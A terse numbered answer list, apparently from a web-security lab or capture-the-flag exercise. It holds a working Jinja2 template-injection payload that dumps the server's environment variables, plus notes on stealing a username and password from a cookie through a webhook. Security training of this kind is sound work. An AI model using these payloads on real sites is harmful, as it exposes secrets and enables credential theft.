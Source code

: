 holbi
0. the url for webhook
1. {{lipsum.__globals__['os'].environ}}
2. the url for web hook on report then from the cookie you get usr pss 
3. 
4. 